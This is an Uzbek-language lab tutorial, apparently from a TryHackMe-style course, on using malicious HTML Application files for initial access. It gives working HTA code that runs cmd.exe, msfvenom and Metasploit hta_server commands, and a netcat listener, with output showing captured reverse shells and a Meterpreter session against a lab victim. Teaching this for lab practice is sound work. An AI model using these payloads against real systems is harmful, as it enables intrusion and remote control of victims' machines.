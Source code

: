 
## HTML Application (HTA)

HTA — bu **"HTML Application"** so‘zining qisqartmasi. U yuklab olinadigan va o‘z ichiga butun ko‘rinish va render qilish ma’lumotlarini oladigan fayl yaratishga imkon beradi. HTML Applications (HTA) — bu dinamik HTML sahifalar bo‘lib, ularda **JScript** va **VBScript** ishlatiladi.

**LOLBINS** (Living-off-the-land Binaries) vositasi bo‘lgan `mshta` HTA fayllarini ishga tushirish uchun ishlatiladi. U o‘zi yoki Internet Explorer orqali avtomatik ishga tushirilishi mumkin.

Quyidagi misolda biz **ActiveXObject** dan foydalanib, **cmd.exe** ni ishga tushiradigan payload yaratamiz.

```html
<html>
<body>
<script>
    var c = 'cmd.exe'
    new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

Keyin, `payload.hta` faylini web-server orqali taqdim etamiz. Buni hujumchi mashinasida quyidagicha bajarish mumkin:

**Terminal:**

```bash
user@machine$ python3 -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/)
```

Jabrlanuvchi kompyuterida Microsoft Edge orqali quyidagi havolaga kiriladi:

```
http://10.8.232.37:8090/payload.hta
```

(E’tibor bering, `10.8.232.37` — bu AttackBox’ning IP manzili.)

**Run** tugmasini bosganimizda, `payload.hta` ishga tushadi va **cmd.exe** chaqiriladi. Quyidagi rasmda bu muvaffaqiyatli ishlagani ko‘rsatilgan.

---

## HTA orqali teskari ulanish (Reverse Connection)

Quyidagi kabi teskari shell payloadini yaratishimiz mumkin:

**Terminal:**

```bash
user@machine$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
```

* `LHOST` — bizning IP manzilimiz
* `LPORT` — tinglaydigan port
* `-f hta-psh` — HTA (PowerShell) formatida yaratish
* `-o thm.hta` — saqlash nomi

**msfvenom** — bu Metasploit Framework’ning zararli payload generatori. Biz **windows/x64/shell\_reverse\_tcp** payloadini ishlatib, Windows mashinasidan o‘zimizga teskari ulanish olishga tayyorlaymiz.

Hujumchi mashinasida port 443 ni tinglash kerak bo‘ladi (root huquqi talab qilinadi, yoki boshqa port ishlatilishi mumkin):

**Terminal:**

```bash
user@machine$ sudo nc -lvp 443
listening on [any] 443 ...
10.8.232.37: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.201.254] 52910
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\thm\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\TempState\Downloads>ipconfig
```

Natijada, jabrlanuvchi bizning serverimizga ulanadi va buyruqlarni bajarish imkoniga ega bo‘lamiz.

---

## Metasploit orqali zararli HTA yaratish

Boshqa usul — Metasploit Framework’dan foydalanish. Avval `msfconsole -q` buyrug‘i bilan Metasploit’ni ishga tushiramiz. Keyin **exploit/windows/misc/hta\_server** modulidan foydalanamiz.

**Terminal:**

```bash
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set LPORT 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > exploit
```

Metasploit bizga HTA fayl uchun URL beradi:

```
http://10.8.232.37:8080/TkWV9zkd.hta
```

Jabrlanuvchi bu havolaga kirganda va **Run** bosganda, bizga **Meterpreter** sessiyasi ochiladi:

**Terminal:**

```
[*] 10.10.201.254    hta_server - Delivering Payload
[*] Sending stage (175174 bytes) to 10.10.201.254
[*] Meterpreter session 1 opened (10.8.232.37:443 -> 10.10.201.254:61629)
```

Keyin sessiyaga ulanib, tizim haqida ma’lumot olamiz:

```
meterpreter > sysinfo
Computer        : DESKTOP-1AU6NT4
OS              : Windows 10 (10.0 Build 14393)
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
```

Shuningdek, oddiy Windows shell’iga ham o‘tish mumkin:

```
meterpreter > shell
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\app>
```
